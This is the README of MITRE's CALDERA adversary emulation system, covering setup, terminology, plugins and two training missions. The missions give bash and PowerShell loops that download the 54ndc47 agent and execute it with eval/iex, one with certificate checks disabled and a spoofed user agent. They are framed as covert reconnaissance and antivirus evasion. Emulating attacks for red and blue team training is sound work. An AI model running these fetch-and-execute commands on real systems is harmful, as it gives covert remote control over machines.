

# CALDERA

CALDERA is an automated adversary emulation system, built on the [MITRE ATT&CK™ framework](https://attack.mitre.org/), 
that performs post-compromise adversarial behavior inside computer networks. It is intended for both red and blue teams.

Python 3.5.3+ is required to run this system.



## Installation

Start by cloning this repository recursively. This will pull all available plugins. 
```
git clone https://github.com/mitre/caldera.git --recursive
```

From the root of this project, install the PIP requirements.
```
pip install -r requirements.txt
```

Then start the server.
```
python server.py
```

## Versions

Bleeding-edge code can be run by using the latest master branch source code. Stable versions are tagged
by major.minor.bugfix numbers and can be used by cloning the appropriate tagged version:
```
git clone --branch 2.1.0 https://github.com/mitre/caldera.git --recursive
```

Check the GitHub releases for the most stable release versions.

> **IMPORTANT**: The core system relies on plugins (git submodules). If you are unfamiliar with this concept and want to run the bleeding-edge code, a "git pull" on this code will likely not be sufficient. You will also need to update the submodules to ensure all plugins are current. One way to do this is by using an alias, such as:
```alias tig="git reset --hard origin/master && git checkout master && git reset --hard origin/master && git pull && git submodule foreach git checkout master && git submodule foreach git pull"```

> *NOTE*: The functionality and schema used by the first release of CALDERA is now stored within the *ADVERSARY* 
plugin. This plugin is loaded automatically with the rest of the submodules, but will not be loaded in 
CALDERA at runtime unless added to the list of submodules in *conf/local.yml*. More information about the *ADVERSARY*
 plugin can be found at the repository for the [Adversary plugin](https://github.com/mitre/adversary).

## Terminology

CALDERA works by attaching abilities to an adversary and running the adversary in an operation. 

* **Ability**: A specific task or set of commands mapped to ATT&CK Tactics and Techniques, written in any language
* **Adversary**: A threat profile that contains a set of abilities, making it easy to form repeatable operations 
* **Agent**: An individual computer running a CALDERA agent, such as the [54ndc47 plugin](https://github.com/mitre/sandcat)
* **Group**: A collection of agents
* **Operation**: A start-to-finish execution of an adversary profile against a group

CALDERA ships with a few pre-built abilities and adversaries with the [Stockpile plugin](https://github.com/mitre/stockpile), 
but it's easy to add your own. 

## Plugins

CALDERA is built using a plugin architecture on top of the core system (this repository). Plugins are 
software components that plug new features and behavior into the core system. Plugins reside
in the plugins/ directory. For more information on each plugin, refer to their respective README files.

Load plugins into the core system by listing them in the conf/local.yml file, then restart
CALDERA for them to become available.

## Planning

When running an operation, CALDERA hooks in a planning module that determines in which order to run each ability. 
An operation executes abilities within phases, but if there are multiple abilities in a phase, the planning module
determines which to run first. The planning module can be changed in the configuration file, local.yml.

## Getting started

To understand CALDERA, it helps to run an operation. Below are pre-built missions you can follow
along with to understand the system. These missions will assume CALDERA is running locally on a laptop.

### Mission #1: OSX reconnaissance

*This mission requires an OSX laptop.*

> Perform reconnaissance on a compromised OSX laptop. Your employer needs a list of the user’s preferred WIFI networks to perform surveillance on them. Grab this list and collect anything else you can, then get out of town. Quickly. Leave no trace. There is one caveat: the laptop’s AV scans the machine in full every minute. 
You must complete this mission in less than 60 seconds. 

Start by booting up the core system.
```
python server.py
```

Then start a 54ndc47 agent on the same machine.
```
while true; do eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render?group=client)"; sleep 60; done
```

Move to a browser, at https://localhost:8888, logging in with the credentials admin:admin. Click into the Chain plugin and use the "Manage Operations" section to fire off an operation using the mission1 adversary. 

Once the operation is complete, compare the execution time of the first and last commands. Was
the mission a success? Did the mission1 adversary run without a trace? Can you figure out why the 
abilities are being run in the order they are?

### Mission #2: PowerShell reconnaissance

*This mission requires PowerShell 3.0+ and is compatible with the open-source version.*

> Perform reconnaissance on a compromised Windows laptop. Your employer needs a list of all processes running
 on the machine, so make sure this is fetched first. Then, perform other recon tasks and get out
 before you get caught. 

Perform the same steps as mission #1 - with the exception of:

1. Start a PowerShell version of 54ndc47, instead of a bash version.
```
while($true) {$ErrorActionPreference='SilentlyContinue';$url="https://localhost:8888/file/render"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -UserAgent ([Microsoft.PowerShell.Commands.PSUserAgent]::Chrome) -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$web.Headers.add("user-agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");$resp=$web.UploadString("$url",'');iex($resp);};sleep 60}
```

2. Run the mission2 adversary, instead of mission1.

## Developers

Be a ninja committer: changes should aim for the smallest change set possible to achieve the goal. 
Additionally, changes should be consistent with the general format and design of what already exists.

### GIT flow

We use the basic feature branch GIT flow. Create a feature branch off of master and when ready, submit a merge 
request. Make branch names and commits descriptive. A merge request should solve one problem,
not many. 

## Licensing

In addition to CALDERA's open source capabilities, MITRE maintains several in-house CALDERA plugins that offer 
more advanced functionality. For more information, or to discuss licensing opportunities, please reach out to 
caldera@mitre.org or directly to MITRE's Technology Transfer Office at 
https://www.mitre.org/about/corporate-overview/contact-us#technologycontact.

## Related MITRE Work

[BRAWL Game](https://github.com/mitre/brawl-public-game-001) - Data set created by the BRAWL project representing
one CALDERA operation with data collected by Microsoft Sysmon and other sensors.

[CASCADE](https://github.com/mitre/cascade-server) - Prototype blue team analysis tool to automate investigative work.

## Acknowledgements

[Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
